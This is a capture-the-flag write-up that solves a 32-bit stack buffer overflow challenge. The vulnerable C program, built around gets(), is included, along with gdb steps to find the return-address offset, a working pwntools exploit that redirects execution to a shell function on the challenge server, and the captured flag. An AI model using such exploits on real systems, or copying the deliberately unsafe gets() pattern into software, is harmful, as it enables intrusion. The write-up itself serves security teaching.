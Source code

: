 ### CHALLENGE PROMPT :

ez overflow (or is it?)

nc cyberyoddha.baycyber.net 10002

Challenge also included a file called Overflow2

--------------------------------------------------------------------------------

The prompt provides us with a netcat ip/host we can connect into to send our payload.

Overflow2 is the following c programme .

  ```
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>

  void run_shell(){
    system("/bin/sh");
  }

  void vuln(){
    char buf[16];
    gets(buf);
  }

  int main(void) {
    vuln();  
  }
  ```

We have to overwrite the return address saved on the stack from calling the vuln() function 
to redirect the flow of execution to the run_shell() function , in order to get a shell .

Let's use gdb to see whats going on under the hood :

  > gdb Overflow2 
  
After that we disassemble main() :

  >disassemble main
  
![main](https://user-images.githubusercontent.com/73142671/98143877-58665900-1ed2-11eb-8b39-819ea102a6fb.png)

Disassembling main shows that , after vuln function returns , it will continue at address **0x080491da**

Lets disassemble vuln() also :

  >disassemble vuln
  
 ![vuln](https://user-images.githubusercontent.com/73142671/98150889-03c5dc80-1ed8-11eb-8420-14b4f87a12d6.png)
 
 We are gonna place a breakpoint after the gets function is called in vuln so we can mess around with it .

  >b *0x080491bc 
  
  Outputs : " Breakpoint 1 at 0x80491bc: file overflow2.c, line 11. "

Then we are gonna run the programme from the breakpoint , and fill the buffer with 16 characters .

![run](https://user-images.githubusercontent.com/73142671/98151640-286e8400-1ed9-11eb-88f0-c3ffa8b61f38.png)

Let's examine the stack , starting from the stack point register .

  > x/24x $sp
  
![x32](https://user-images.githubusercontent.com/73142671/98151834-74212d80-1ed9-11eb-8aa6-fd6dc3c845cb.png)

  
Using the info frame command we can see where EIP is at .

  >info frame

![eip1](https://user-images.githubusercontent.com/73142671/98152028-c1050400-1ed9-11eb-9742-cb80713d7614.png)

Alternatively , we can calculate it with the find command :

  >find 0xffffd4a0, +96, 0x080491da

Outputs : 

" 0xffffd4cc
1 pattern found. "

After our analysis we know that the return address we’re looking for (0x080491da) 
is at memory location **0xffffd4cc** and the start of buf is at **0xffffd4a0**

Now , we need to disassemble run_shell() to get the function's address .

![shellr](https://user-images.githubusercontent.com/73142671/98153097-59e84f00-1edb-11eb-9132-f656dc4a8dab.png)

Now we have the first address of the run_shell function , **0x08049172**

Alternatively , we could get the above address like this :

  >objdump -d Overflow2 | grep run_shell

which gives us *08049172*

So finally we have to override our return address (0x080491da) with 0x08049172 .

Let's write our exploit in python , utilizing the pwn lib :

  ```
  from pwn import *

  offset = 28

  r = remote('cyberyoddha.baycyber.net', 10002)

  payload = [
      b'A'*offset,
      p32(0x08049172)
  ]

  payload = b''.join(payload)

  r.send(payload)
  r.interactive()

  ```

Executing our programme we get a shell , and thus the flag .

**CYCTF{0v3rfl0w!ng_v@ri@bl3$_i$_3z}**


























